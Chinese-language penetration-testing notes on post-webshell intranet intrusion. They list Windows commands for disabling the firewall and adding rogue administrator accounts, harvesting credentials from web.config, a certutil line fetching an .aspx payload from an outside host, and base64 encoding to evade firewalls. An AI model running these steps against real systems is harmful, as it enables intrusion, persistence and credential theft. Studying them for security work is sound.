 # 内网渗透
## 渗透测试的流程
在对内网进行渗透测试前，我们需要获取权限，依次为后台权限=》webshell权限=》服务器权限；大多数情况下是获取到webshell权限，随后再进行提权操作获取服务器权限。
## webshell
#### webshell的定义：对web应用中的文件拥有增删改查的功能。
#### webshell权限
webshell的权限根据不同的系统有的不同的权限，有的时候是系统权限，有的时候是管理员权限，有的时候是普通用户权限。
- Windows
1. system         系统权限      （system权限是最高权限）
2. Administrator  管理员权限
3. user           普通权限
- Linux
1. root           管理员权限
2. user           普通权限

##### 内网需要对计算机不同的系统有着一定的操作能力。
## Windows系统基础篇
- 在Windows服务器中默认只允许拥有管理员权限的用户才能远程登陆服务器中。
- Windows的服务器系统版本（win2000,win2003,win2008,win2012,win2016,win2019,win2022）,都有共同的默认账号administrator和guest，且guest账号默认是禁用的。
- Windows默认远程控制（RDP）端口为3389，服务（TermService）
#### 如何通过命令行锁定端口号
有的时候远程的端口会被管理员修改，我们可以通过命令行来对端口进行锁定，步骤如下：
1. 使用`tasklist /svc`找到TermService服务对应的PID号
2. `netstat -ano`找到对应PID开放的端口号

#### 连接不上3389端口的原因
- 对方服务器只映射了web端口到外网，未映射3389端口到外网，所以外网无法直接访问内网的3389，导致无法连接；可通过ipconfig查看系统是公网IP还是公网IP。
- 服务器自身的系统防火墙入网规则未允许3389入网请求。解决方法：使用dos命令关闭防火墙，简单暴力。

## doc命令篇
```
netsh firewall set opmode disable 关闭防火墙
netsh firewall set opmode mode=enable 开启防火墙
whoami /priv  查看当前权限列表
net user 查看用户列表
net user aaa 查看用户aaa
net user aaa 123  修改用户aaa密码为123
net user aaa /del 删除用户aaa
net user aaa 123 /add 添加用户aaa并且密码为123
net user aaa /active:yes  激活用户aaa
net user aaa /active:no   禁用用户aaa
net localgroup Administrators aaa /add 用户aaa添加到管理员组
net localgroup Administrators aaa /del 将用户aaa从管理员组移除
net localgroup Administrators  查看管理员组有哪些用户
tasklist /svc 查看进程所对应的服务名和PID
tasklist /v 查看进程对应启动的用户名
netstat -ano 查看开放的端口
```
## 拿到webshell后如何进行信息收集
常见的连接webshell的工具，如：
1. 冰蝎
2. 蚁剑
3. 菜刀
4. 哥斯拉（推荐）https://github.com/808Mak1r/GodzillaSource

连接好webshell后收集数据库信息，然后连接数据库。Windows上搭建的服务器可以查看web.config，当此文件没有我们要的信息时，也可以查看其他带有.config的文件，尽量收集更多的信息。

- web.config可能收集到的信息
1. 数据库连接信息
2. 邮件连接信息
3. 域控管理员连接信息
4. 后台账号密码
5. 短信发送平台连接信息
6. API接口平台

## Windows上下载文件到服务器有哪些方法？
- certutil命令(该命令在win2000上不支持)
`certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx`
##### 此命令的其他功能
```
certutil -urlcache -split -f http://1.1.1.1:8080/test.aspx C:\Windows\Temp\1.aspx 下载文件到制定路径下

certutil 还可以进行base64编码，可通过此防范绕过防火墙，步骤如下

首先先将文件进行编码 certutil -encode 1.aspx 1.txt,这样我们就将1.aspx进行了base64编码并存储到了1.txt文件中，随后我们在解码，certutil -decode 1.txt 2.aspx,将编码后的文件再解码，就可以执行文件了。


```

## 权限提升
权限提升分为两类，一类是系统漏洞提权，一类是不正确配置提权，也称第三方提权（sql server提权）。










